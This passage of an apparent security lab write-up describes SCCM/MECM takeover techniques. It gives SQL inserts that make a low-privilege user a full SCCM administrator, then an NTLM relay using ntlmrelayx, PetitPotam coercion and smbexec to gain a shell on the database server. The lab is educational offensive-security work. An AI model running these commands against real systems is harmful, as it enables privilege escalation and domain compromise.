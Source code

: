 - We now have the SID in hex format : `0x01050000000000051500000058ED3FD3BF25B04EDE28E7B85A040000` (in my instance)


- Let's play the queries by hand:

```
USE CM_P01; 

-- Add carol to admins
INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x01050000000000051500000058ED3FD3BF25B04EDE28E7B85A040000,'SCCMLAB\carol',0,0,'','','','','P01');

-- Get carol admin id
SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol';

-- Insert extended permissions with the adminID we have
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (16777225,'SMS0001R','SMS00ALL','29'),(16777225,'SMS0001R','SMS00001','1'),(16777225,'SMS0001R','SMS00004','1');
```

![insert_admin_sccm_mssql.png](/assets/blog/SCCM/insert_admin_sccm_mssql.png)

- Let's verify and compare to administrator (the user used to install sccm)

![mssql_compare_toadmin.png](/assets/blog/SCCM/mssql_compare_toadmin.png)

- Ok so just verify we are sccm admin with sccmhunter :

![sccm_admin_with_sccmhunter.png](/assets/blog/SCCM/sccm_admin_with_sccmhunter.png)

## Takeover-2 - Relay to SMB on remote DB (low user -> mecm admin account)

- Microsoft impose the computer account of the site server to be admin on the mssql server
- By knowing that you can simply coerce MECM to MSSQL computer and get the hashes
- Details : [Takeover-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-2/takeover-2_description.md)


- prepare the relay to the mssql server

```bash
ntlmrelayx -t 192.168.33.12 -smb2support -socks
```

- launch the coerce with petitpotam

```bash
petitpotam.py -d sccm.lab -u sccm-naa -p 123456789 192.168.33.1 192.168.33.11
```

![sccm_relay_to_mssql_smb.png](/assets/blog/SCCM/sccm_relay_to_mssql_smb.png)

- Get a shell
```bash
proxychains -q smbexec.py -no-pass SCCMLAB/'MECM$'@192.168.33.12
```
